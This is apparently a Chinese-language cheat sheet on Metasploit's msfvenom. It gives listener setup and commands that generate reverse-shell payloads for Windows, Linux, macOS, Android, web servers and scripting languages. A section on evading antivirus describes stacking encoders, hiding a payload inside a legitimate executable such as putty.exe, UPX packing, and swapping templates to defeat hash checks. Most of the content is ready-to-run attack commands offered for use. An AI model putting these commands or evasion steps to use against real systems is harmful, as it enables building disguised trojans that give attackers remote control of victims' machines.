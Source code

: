 ```yaml
---
description: msf 的基础使用
---
```


# 🚲 msfvenom

## 1. 木马连接方式

1. 正向连接： 攻击主机主动连接目标机器
2. 反向连接： 目标机器连接攻击主机

## 2. msfvenom 常用选项

```bash
-l  列出所有可用的payload,编码器,空指令……
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置
```

## 3. 如何使用 msf 创建监听器

```bash
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
run
```

## 4. 创建 Msf payload

直接使用msfvenom生成的反弹shell程序一般都会被杀毒软件无情差杀掉\
避免被查杀的最普遍方法是编码，简单来说就是改变可执行文件中的代码形状，从而让只识别静态特征码的杀毒软件无法识别，且当木马运行之后，木马会将原始程序解码到内存中，如此木马原来的功能自然也不会受到影响

可以使用`x86/shikata_ga_nai` 动态编码器进行混淆，简单单次混淆一般都能被杀毒软件先解码再查杀识别出来，那么尝试使用 **多重编码器多次混淆**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i5 -f raw | msfvenom -e x86/shikkata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -b '\x00\x0a\xff' -f exe -o shell.exe
```

如果进行多次编码的马儿还是被查杀，可以尝试 **更换可执行文件模板**，重新生成木马

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f exe -o shell.exe
```

发现更换可执行文件模板的马儿依然被查杀，编码和更换模板都行不通，可以试试 **加壳**。软件加壳基本原理就是对可执行文件进行加密压缩，执行之后将代码解压为原始程序，这里分别使用5、9级别upx加壳等级对木马进行加壳

<pre class="language-bash"><code class="lang-bash"><strong>upx -5 shell.exe -o upx5_shell.exe
</strong>upx -9 shell.exe -o upx9_shell.exe
</code></pre>

将木马藏在可执行文件里面，文件的md5值会发生改变，杀毒软件将文件与官方原版文件进行对比即可判断是否异常，这里 **换一个不常见的可执行文件模板（可以是自己写的）**\
还有可以不直接生成可执行文件，而是 **生成c代码**

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 15 -b '\x00\' -f c -o shell.c
```

### 1. Windows 平台

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o x86_shell.exe
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1
```

### 2. Linux 平台

```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf
```

### 3. MAC  平台

```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho -o x86_shell.macho
```

### 4. 安卓平台

```bash
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f apk -o x86_shell.apk
```

### 5. WEB Payloads

```bash
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

### 6. 脚本 Payloads

```bash
# Python
msfvenom -p python/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o rshell.py

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw -o shell.pl

# Node.js
msfvenom -p nodejs/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.js

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw -o shell.sh

# ruby
msfvenom -p ruby/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o x86_shell.rb

# lua
msfvenom -p cmd/unix/reverse_lua LHOST=<ip> LPORT=<port> -f raw -o x86_shell.lua
```

### &#x20;
